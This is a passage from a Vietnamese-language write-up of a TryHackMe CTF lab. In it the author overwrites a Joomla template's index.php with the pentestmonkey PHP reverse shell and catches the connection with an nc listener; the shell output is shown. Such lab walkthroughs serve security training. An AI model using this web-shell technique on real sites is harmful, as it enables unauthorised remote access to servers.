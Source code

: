Sau khi đăng nhập, tôi có giao diện quản trị joomla. Bây giờ thì upload revershell thôi. 

*Extensions -> Templates -> Templates -> beez3*

![beez3](/assets/img/2022-05-01-THM-HA-Joker-CTF/4.webp)

Tôi sẽ xóa hết nội dung và thay đổi bằng code shell của mình. Vẫn là shell php thần thánh của *pentestmonkey* thôi. 

Thay đổi giá trị IP và Port thành máy local của mình, sau đó save nó lại. Vì tôi thay đổi file *index.php* trong template *beez3* nên cũng phải vào url này thì mới kích hoạt được shell. Và tất nhiên trước đó tôi phải tạo listener với port đã cấu hình trong code shell

`http://IP:8080/templates/beez3/index.php`

Quay lại listener

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2402                             
listening on [any] 2402 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.198.35] 35612
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:30:22 up 11 min,  0 users,  load average: 0.00, 0.20, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
bash: cannot set terminal process group (632): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
www-data@ubuntu:/$ 
```
